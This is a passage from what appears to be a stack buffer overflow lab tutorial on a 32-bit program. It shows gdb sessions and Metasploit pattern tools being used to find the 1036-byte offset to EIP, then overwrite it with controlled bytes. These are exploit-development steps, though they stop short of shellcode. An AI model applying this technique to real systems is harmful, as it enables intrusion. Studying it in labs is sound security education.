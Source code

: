 Visually, the memory will look like this:

![Memory state with huge input](20250930_201840_stack.jpg)

With such large input, the base of the stack is surpassed and we have overwritten the EIP with `\x55`. However, to write exactly into the EIP, we need to know exactly how many `\x55` characters we need to write to be at the EIP. Once we are at the EIP, the next 4 bytes will contain our desired memory address.

## Determine the offset

To determine the offset, we can use Metasplit framework. It will create a unique pattern of the specified length. When passed as input to the program, we'll see which part of the pattern leaks into the EIP. In this step, we want to cause a segmentation fault and see the registers at the end, i.e. don't set any breakpoints.

```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
cat pattern.txt

Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9

(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()

(gdb) info registers eip

eip            0x69423569 0x69423569

# We pass the found EIP address to a MSF utility and it will give us the exact offset to arrive to the EIP.
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569

[*] Exact match at offset 1036
```

So, now we can write exactly at EIP with the following input:

```shell
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```
